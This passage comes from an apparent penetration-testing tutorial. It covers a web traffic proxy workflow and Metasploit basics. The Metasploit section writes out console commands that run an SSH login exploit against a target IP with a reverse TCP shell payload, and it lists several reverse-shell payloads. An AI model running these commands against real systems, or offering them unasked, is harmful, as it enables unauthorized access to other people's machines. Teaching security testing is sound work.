 **What it does:** Intercepts and modifies web traffic

**Why it's critical:** 80% of bugs are in web applications

**Essential Features:**
- **Proxy:** Intercept requests/responses
- **Spider:** Map application structure  
- **Intruder:** Automated attacks
- **Repeater:** Modify and replay requests

**Basic Workflow:**
1. Set browser proxy to 127.0.0.1:8080
2. Browse target application
3. Intercept requests in Proxy tab
4. Send interesting requests to Repeater
5. Modify parameters to find vulnerabilities

**Pro Tip:** Use Burp extensions like Logger++, Autorize, ParamMiner

**Master Level:** Can find complex logic flaws using Burp

---

### **3. Metasploit - Exploitation Framework 💥**

**What it does:** Exploits known vulnerabilities automatically

**Why it's critical:** Fastest way to get system access

**Basic Commands:**
```bash
# Start Metasploit
msfconsole

# Search for exploits
search ssh

# Use an exploit
use exploit/linux/ssh/ssh_login

# Set target
set RHOSTS 192.168.1.100

# Set payload
set payload linux/x86/shell/reverse_tcp

# Run the exploit
exploit
```

**Common Payloads:**
- **windows/x64/meterpreter/reverse_tcp** - Windows reverse shell
- **linux/x86/shell/reverse_tcp** - Linux reverse shell
- **php/meterpreter/reverse_tcp** - Web application shell

**Master Level:** Can chain exploits for full network compromise

---